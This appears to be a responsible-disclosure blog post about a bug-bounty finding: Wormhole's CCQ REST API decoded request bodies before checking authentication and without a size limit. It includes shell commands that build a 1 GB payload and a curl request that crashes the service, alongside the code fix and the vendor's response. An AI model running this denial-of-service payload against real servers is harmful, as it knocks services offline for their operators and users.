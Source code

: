 ```yaml
---
weight: 1
title: "Taking down Wormhole's CCQ service through REST API"
date: 2023-10-24
tags: ["Wormhole", "CCQ", "DoS", "immunefi"]
draft: true
author: "fadam"
authorLink: ""
description: "Taking down Wormhole's CCQ service through REST API"
images: []
categories: ["Web2"]
lightgallery: true
resources:
  - name: "featured-image-preview"
    src: "templatebloggraphqldos.png"

toc:
  auto: false
---
```


## Introduction

As part of my Bug Bounty journey, I like to monitor my favorite programs on Github. Checking their latest Pull Requests/commits allow me to know what they are working on, and to get an insight of where security issues could arise. \
In this article, I will describe how I was able to find an issue within a new product (CCQ) of Wormhole. \
Because I was monitoring the project closely, I found the issue soon after it was pushed on the main branch, and before it was pushed on the Guardians nodes. \
The following sections are taken from the Immunefi report. I would like to thank the Wormhole's team for allowing me to post and for their professionalism.

## Bug Description
The tests were performed on the commit: [6c3ff43d6a416abce680e77ce81a9f613ba27075](https://github.com/wormhole-foundation/wormhole/commit/6c3ff43d6a416abce680e77ce81a9f613ba27075) \
Wormhole has implemented a new feature: [Cross-Chain Queries](https://github.com/wormhole-foundation/wormhole/blob/main/whitepapers/0013_ccq.md) which includes a REST API :
> a separate REST server is being provided to accept off-chain query requests

Also the feature is only supposed to work off-chain (p2p, API) in a first time :
> The initial release of CCQ will not support on chain requests.

There are two issues regarding the REST API.
The function handleQuery() within [http.go](https://github.com/wormhole-foundation/wormhole/blob/6c3ff43d6a416abce680e77ce81a9f613ba27075/node/cmd/ccq/http.go#L40) :
1. Checks authentication **after** decoding the payload:
```golang
var q queryRequest
err := json.NewDecoder(r.Body).Decode(&q)
(...)
apiKey, exists := r.Header["X-Api-Key"]
if !exists || len(apiKey) != 1 {
	s.logger.Debug("received a request without an api key", zap.Stringer("url", r.URL), zap.Error(err))
	http.Error(w, "api key is missing", http.StatusBadRequest)
	return
}
```

2. Does **not limit the size** of the POST payload.

In consequence, an attacker can craft an arbitrary curl request containing 1Gb of hexadecimal payload.
This will cause the server to decode the body for a very long time, leading to very high increase in RAM, and increase of CPU.
On my testbed, it led to container restarting due to lack of resources.

## POC
First of all, we need to recreate a little Wormhole environment with Tilt.
```bash
git clone https://github.com/wormhole-foundation/wormhole/
cd wormhole
make node
minikube start --cpus=8 --memory=24G --disk-size=100G --driver=docker
tilt up
```

Then we need to modify the Tilt file so we can access the CCQ feature, please refer to the following [Tilt file](https://gist.github.com/0xfadam/4ba10f032d3d2530f5f28556285248a6à)

To create the 1 Gb payload that will crash the service :
```bash
echo -ne '{"data" : "' >> json_payload.json
dd if=/dev/urandom bs=1M count=1024| xxd -p -c 1024 >> json_payload.json
echo -ne '"}' >> json_payload.json
tr -d "\n" <  json_payload.json > final_payload.json
rm  json_payload.json
```

To perform the attack : 
```bash
curl -X POST -H "Content-Type: application/json" -T final_payload.json http://guardian:8996/v1/query
```

A video PoC (with 2 videos) demonstrates the impact:
1. https://drive.google.com/file/d/1vvzbUr-ucuVWthf7K57eiiHGFoqf9x-O/view?usp=sharing
2. https://drive.google.com/file/d/1vwDj27H4Y97vbOMvzJVzKxgdbz08mNzz/view?usp=sharing

The PoC is running on a I7 server (16CPU) + 32 Gb RAM, and only one curl is used. \
On the second video, at 5.22, the server reaches maximum RAM and container restarts.

Only 2/3 requests were used. The purpose of using a small amount of requests was to demonstrate that the issue was not **network-related** , but **application-related**.

I believed this issue could have been critical if 6+ guardians expose the endpoint, since this would lead to a "Permanent Denial of Service attacks (excluding volumetric attacks)". \
Indeed, it is important to note that Guardians are also [expected to run full nodes](https://docs.wormhole.com/wormhole/explore-wormhole/guardian) : 
> The requirements for running a Guardian are relatively heavy, as they need to run a full node for every single blockchain in the ecosystem. 

Causing such a RAM incident would have other repercussions on other services (for instance, if geth for unexpected reasons, it can takes hours/days to resync properly).

## Recommendation
1. The first part of the fix is to check the authentication before processing the JSON payload.
```golang
	// There should be one and only one API key in the header.
	apiKeys, exists := r.Header["X-Api-Key"]
(...)
	var q queryRequest
	err := json.NewDecoder(http.MaxBytesReader(w, r.Body, MAX_BODY_SIZE)).Decode(&q)
	if err != nil {
		s.logger.Debug("failed to decode body", zap.Error(err))
		http.Error(w, err.Error(), http.StatusBadRequest)
		return
	}
```

2. Additionnally, a control over the payload size is now performed, ensuring it does not exceed 5Mb.
```golang
const MAX_BODY_SIZE = 5 * 1024 * 1024
(...)
err := json.NewDecoder(http.MaxBytesReader(w, r.Body, MAX_BODY_SIZE)).Decode(&q)
```
## Wormhole response
The issue was not considred critical for the following reasons:
1. CCQ will run separately from the guardian (another service),
2. CCQ product, even if pushed in Main branch, was not pushed onto the guardians,
3. It is expected that guardian operators will protect the CCQ feature behind a reverse-proxy and other security equipments.

With that being said, Wormhole has been very proactive and has fixed the issue **on the same day** of the report, through the [PR 3443](https://github.com/wormhole-foundation/wormhole/pull/3443).


